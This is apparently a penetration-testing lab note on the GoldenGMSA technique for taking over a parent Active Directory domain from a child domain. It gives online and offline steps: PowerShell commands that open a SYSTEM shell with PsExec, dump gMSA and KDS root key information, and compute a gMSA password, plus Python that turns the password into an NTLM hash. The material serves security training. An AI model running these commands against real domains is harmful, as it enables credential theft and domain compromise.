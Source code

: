 To compromise a parent domain from a child domain we use GoldenGMSA. Need to be member of enterprise admins, domain admins or SYSTEM on a DC.

**Online Attack**

1. Get the **gMSA SID** from the **parent domain.**
2. Use the **SID** to calculate the gMSA password by querying both parent and child domains.

```powershell
# Open PS as SYSTEM
.\PsExec -s -i powershell

# Enumerate
.\GoldenGMSA.exe gmsainfo --domain inlanefreight.ad

# Get gMSA password
.\GoldenGMSA.exe compute --sid "S-1-5-21-2879935145-656083549-3766571964-1106" --forest dev.zencorp.ad --domain zencorp.ad
```

**Offline Attack**

1. **Retrieve the gMSA SID** and **msDS-ManagedPasswordID** from the **parent domain**.
2. **Get the KDS key info** from the **child domain** using **SYSTEM privileges**.
3. **Manually compute** the gMSA password using the **GoldenGMSA tool** by combining the **KDS key and gMSA attributes**.

```powershell
# Open PS as SYSTEM
.\PsExec -s -i powershell

# Get msds-ManagedPasswordID
.\GoldenGMSA.exe gmsainfo --domain inlanefreight.ad

# Get kdsinfo
.\GoldenGMSA.exe kdsinfo --forest dev.inlanefreight.ad

# Compute gMSA password
PS C:\Tools> .\GoldenGMSA.exe compute --sid "S-1-5-21-2879935145-656083549-3766571964-1106" --kdskey AQAAAAwsk7o0XG
```

Convert password

```python
# hashlib
import hashlib
import base64
 
base64_input  = "WITSKRtGahQFvL/iUmJfQbRIJ7S7GMW+nKUj+TlJ4YZJyZ6pjlp5caC78rC4oY6woKxe294/hPCCl6nL2NNWSmj6f1GlmFKvizvlABXVpLqIGbQvyZEbYhPr+twasnf4m+B0qmwj4fXUx8qQAy+cEIV8sd18ZvOLKet7259cIbXTV1lbO3gxIEmDDjMmgP6QD1GQDHnr4xxgwR5YKZC9CbK01db3SWlpPYxElx30MGwzMLtL17ccxmGYAMzqNq/R9ldEq/hC4WDJ3hGg4CVagcOuHOQPOJ6Nh0+x4CBE46CoshfID+3wyswFI/akytdBDVyNk1hj9KH4v/kizCPw6A=="

print(hashlib.new("md4", base64.b64decode(base64_input)).hexdigest())

# md4
from Crypto.Hash import MD4
import base64

base64_input  = "WITSKRtGahQFvL/iUmJfQbRIJ7S7GMW+nKUj+TlJ4YZJyZ6pjlp5caC78rC4oY6woKxe294/hPCCl6nL2NNWSmj6f1GlmFKvizvlABXVpLqIGbQvyZEbYhPr+twasnf4m+B0qmwj4fXUx8qQAy+cEIV8sd18ZvOLKet7259cIbXTV1lbO3gxIEmDDjMmgP6QD1GQDHnr4xxgwR5YKZC9CbK01db3SWlpPYxElx30MGwzMLtL17ccxmGYAMzqNq/R9ldEq/hC4WDJ3hGg4CVagcOuHOQPOJ6Nh0+x4CBE46CoshfID+3wyswFI/akytdBDVyNk1hj9KH4v/kizCPw6A=="

print(MD4.new(base64.b64decode(base64_input)).hexdigest())

```
